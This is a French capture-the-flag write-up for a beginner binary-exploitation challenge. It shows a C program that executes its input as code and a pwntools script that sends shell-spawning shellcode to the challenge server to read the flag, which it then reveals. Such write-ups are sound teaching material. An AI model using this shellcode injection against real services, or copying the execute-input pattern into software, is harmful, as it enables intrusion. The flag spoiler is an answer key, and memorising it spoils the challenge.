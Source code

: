 ## Enoncé

>Entre les lagons turquoise et les forêts tropicales denses, se trouve une île légendaire nommée Naori. Cette île est réputée pour abriter d'anciens esprits guerriers, gardiens de puissants secrets. Seuls les plus braves et les plus intelligents peuvent espérer marcher sur les traces de ces guerriers et découvrir les trésors cachés des temps anciens.
> 
> Un grand guerrier des temps anciens a laissé derrière lui une série d'épreuves pour tester la force et l'ingéniosité de ceux qui souhaiteraient suivre son chemin. Ces épreuves, connues sous le nom de "Chemin du Guerrier", commencent par un simple défi, mais chaque étape mène les aspirants plus près du secret ultime.
> 
> La deuxième étape de ce périple est annoncée par un message à l'entrée d'une grotte : "Celui qui souhaite maîtriser les esprits doit aussi apprendre à dompter les mots. Entrez, mais prenez garde : le moindre faux pas pourrait réveiller des forces que vous ne pouvez contrôler."
> 
> En entrant dans la grotte, vous découvrez un ancien artefact, un vieux totem, qui semble réagir à vos paroles. Cet artefact, connu sous le nom de "Totem de l'Exécution", est la clé de votre première épreuve. Il exécute tout ce qui lui est dit, sans poser de question. Mais attention, il est capricieux et n'aime pas les erreurs.


![paroles](paroles)

![paroles](paroles.c)
## Résolution

Ici on regarde le code : 
```c
#include <stdio.h>
#include <unistd.h>
void init(){
    fclose(stderr);
    setvbuf(stdin,  0, 2, 0);
    setvbuf(stdout, 0, 2, 0);
}
int main(){
    init();
    char buf[0x100]; 
    puts("Si vous réussissez à maîtriser le Totem, le chemin du guerrier s'ouvrira un peu plus devant vous. Mais ce n'est que le début. D'autres épreuves plus difficiles vous attendent, où chaque pas vous rapprochera un peu plus du secret ultime du guerrier légendaire.\n\nQu'avez-vous à me dire ?");
    read(0, buf, 0x100);
    void (* p )(); 
    p = (void (*)()) buf;
    p();
    return 0;
}
```

En gros le programme va prendre notre input et l’interpréter comme une fonction qu’il va appeler.

Le code nous indique (et chatgpt aussi d’ailleurs) de passer par un shellcode : une chaine qui va executer un code quand il sera appelé. Ce qu’on souhait nous, c’est avoir un shell pour récupérer le contenu du flag sur le serveur.

Et on va faire ça avec un script.

Injection de shellcode : 

```python
#!/usr/bin/env python3
from pwn import *

exe = context.binary = ELF(args.EXE or 'paroles')

p = remote("challenges.hackagou.nc", 5001)

shellcode = asm(shellcraft.sh())

p.recv()
p.sendline(shellcode)
p.interactive()
p.close()
```

```bash
ls
cat flag.txt
```

>[!question]- Spoiler du flag
> OPENNC{13_Gu3rR13r_p4r13_54n5_R3gr37!}

